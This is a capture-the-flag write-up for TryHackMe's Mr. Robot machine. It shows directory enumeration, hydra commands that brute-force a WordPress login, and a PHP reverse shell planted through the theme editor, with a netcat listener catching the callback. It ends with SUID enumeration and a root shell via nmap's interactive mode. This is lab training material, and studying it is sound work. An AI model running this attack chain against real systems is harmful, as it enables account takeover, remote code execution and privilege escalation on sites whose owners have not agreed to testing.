

# Mr. Robot CTF [TryHackMe]

<sup>This write-up covers the steps to root Mr. Robot CTF machine on TryHackMe platform.</sup>

First let's scan the target:

```bash
nmap -p- --script=vuln $targ3t -oN general.scan -vv
```

This is understandably going to take a while, but we already see open ports `80` and `443` pop up in the scan: 

```
Discovered open port 443/tcp on 10.10.48.148
Discovered open port 80/tcp on 10.10.48.148
```

This means this machine has a web interface. Let's check it out:

```bash
firefox $targ3t
```

There is a command interface that encourages the users to interact with it. 



Before I play around with it, I'll put it through `feroxbuster` to see if it has anything hiding behind it:

```bash
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

We can see a number of very interesting directories and files:

```
200      GET        0l        0w   516314c http://10.10.48.148/admin/intro
200      GET        1l       14w       64c http://10.10.48.148/readme
200      GET        3l        4w       41c http://10.10.48.148/robots.txt
200      GET        3l        4w       41c http://10.10.48.148/robots
200      GET        0l        0w        0c http://10.10.48.148/sitemap.xml
200      GET        0l        0w        0c http://10.10.48.148/sitemap
200      GET        4l        5w       43c http://10.10.48.148/admin/robots.txt
200      GET        0l        0w 30178875c http://10.10.48.148/admin/robot
301      GET        7l       20w      234c http://10.10.48.148/video => http://10.10.48.148/video/
301      GET        7l       20w      237c http://10.10.48.148/wp-admin => http://10.10.48.148/wp-admin/
301      GET        7l       20w      239c http://10.10.48.148/wp-content => http://10.10.48.148/wp-content/
301      GET        7l       20w      240c http://10.10.48.148/wp-includes => http://10.10.48.148/wp-includes/
```

Once we navigate to `$targ3t/robots` we can see the following contents:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The last line seems pretty self-explanatory to me. No?

```
firefox $targ3t/key-1-of-3.txt
```

And we got the first key! Now on to the Line 2:

```
firefox $targ3t/fsocity.dic
```

Seems like some sort of a dictionary. Could be usernames or passwords. Why not use it as both? There seems to be a `/wp-login` path we could try to log into. First, let's download the dictionary:

```
wget $targ3t/fsocity.dic
```

Now let's fire up burp suite! Go to Proxy, tap **Open Browser**, turn off **Intercept** goto `http://$targ3t/wp-login`, turn **Intercept** back on. Try to login with `admin:admin` credentials. This is what Burp will intercept:

```
POST /wp-login.php HTTP/1.1
Host: 10.10.22.82
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.22.82
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.22.82/wp-login
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.22.82%2Fwp-admin%2F&testcookie=1
```

The last line is what's important, we can use it with hydra and the dictionary we downloaded, to spray a random password, like "admin" and check if the error message changes at any usernames:

```bash
hydra -L fsocity.dic -p admin $targ3t http-post-form "/wp-login:log=^USER^&pwd=^PASS^:F=Invalid username" -t 4
```

We got a result soon enough:

```
[80][http-post-form] host: 10.10.22.82   login: Elliot   password: admin
```

The error message for this login:password pair is:

```
The password you entered for the username Elliot is incorrect.
```

Now, we can use this username to brute force it with the same list as password list:

```
hydra -l Elliot -P fsocity.dic $targ3t http-post-form "/wp-login:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 4
```

And sure enough we have a result:

```
[80][http-post-form] host: 10.10.22.82   login: Elliot   password: ER28-0652
```

Let's try to log in on `/wp-login`. And we're in. The Wordpress dashboard has an Appearance section on the left and in the Editor subsection we can make changes to the website. Let's try to plant a reverse shell. I'll use [this one](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php) for this assignment.

I modified the index page, added this PHP code to it, started a `netcat` listener and ran this homepage address in the browser. This returned a shell:

```
listening on [any] 9233 ...
connect to [10.14.99.123] from (UNKNOWN) [10.10.22.82] 37547
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:38:50 up 54 min,  0 users,  load average: 0.00, 0.10, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's stabilize the shell:

```
python -c 'import pty;pty.spawn("/bin/bash")'
whoami
```

Seems like we are `daemon`, let's see if we can escalate some privileges:

```
find / -perm /4000 2>/dev/null
```

One of the binaries listed is `nmap`. We can escalate privileges using it the following way:

```
daemon@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
#
```

Now, let't find two remaining keys!

```bash
find / -type f -name key-2-of-3.txt 2>/dev/null
cat /home/robot/key-2-of-3.txt
```

```bash
find / -type f -name key-3-of-3.txt 2>/dev/null
cat /root/key-3-of-3.txt
```

Bye!
